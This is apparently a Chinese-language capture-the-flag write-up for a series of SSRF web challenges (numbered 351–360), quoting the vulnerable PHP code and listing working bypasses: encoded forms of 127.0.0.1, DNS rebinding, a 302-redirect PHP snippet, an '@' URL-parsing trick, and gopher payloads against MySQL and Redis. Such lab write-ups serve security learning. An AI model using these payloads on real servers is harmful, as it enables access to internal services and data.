


## 351

```PHP
<?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$ch=curl_init($url);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$result=curl_exec($ch);
curl_close($ch);
echo ($result);
?
```

## 352-353

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$x=parse_url($url);
if($x['scheme']==='http'||$x['scheme']==='https'){
if(!preg_match('/localhost|127.0.0/')){
$ch=curl_init($url);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$result=curl_exec($ch);
curl_close($ch);
echo ($result);
}
else{
    die('hacker');
}
}
else{
    die('hacker');
}
?> 
```

要求必须是http或https

然后过滤127.0.0.1/localhost

有很多方法

```
http://2130706433/flag.php   十进制绕过
http://0x7F000001/flag.php
http://017700000001/flag.php
http://0/flag.php
http://127.0.1/flag.php
http://127.1/flag.php
http://1il88.cn/r6NOs     短网址，没有成功
http://127.0。0。1/flag.php 没有成功
http://127.0.0.①       封闭式字符,没有成功
```

## 354

搬运一下

DNS-Rebinding攻击绕过

```
url=http://r.xxxzc8.ceye.io/flag.php 自己去ceye.io注册绑定127.0.0.1然后记得前面加r
```

302跳转绕过也行，在自己的网站主页加上这个

```
<?php
header("Location:http://127.0.0.1/flag.php");
```

```
我自己的域名A记录设为了127.0.0.1
```

或者有个现成的A记录是127.0.0.1的网站

```
url=http://sudo.cc/flag.php
```

## 355-356

对host长度进行了限制，host长度小于5

```
http://0/flag.php
```

## 357

关键代码，不能是一些私有地址

```
if(!filter_var($ip, FILTER_VALIDATE_IP, FILTER_FLAG_NO_PRIV_RANGE | FILTER_FLAG_NO_RES_RANGE)) {
    die('ip!');
}
```

- FILTER_FLAG_IPV4 - 要求值是合法的 IPv4 IP（比如 255.255.255.255）
- FILTER_FLAG_IPV6 - 要求值是合法的 IPv6 IP（比如 2001:0db8:85a3:08d3:1319:8a2e:0370:7334）
- FILTER_FLAG_NO_PRIV_RANGE - 要求值是 RFC 指定的私域 IP （比如 192.168.0.1）
- FILTER_FLAG_NO_RES_RANGE - 要求值不在保留的 IP 范围内。该标志接受 IPV4 和 IPV6 值。

用web354说过的DNS-Rebinding与302跳转即可解题

## 358

限制是这个

```
if(preg_match('/^http:\/\/ctf\..*show$/i',$url)){
    echo file_get_contents($url);
}
```

blackhat议题加上url解析特性php的curl默认是@后面的部分加上?url解析的时候会把他当成url解析的get请求参数

```
url=http://ctf.@127.0.0.1/flag.php?.show
```

## 359-360

源码里面有这样一段内容



用gopher协议打mysql

使用gopherus生成payload



将_后面的再次url编码,传入check.php里面

360打redis,不多说,差不多的步骤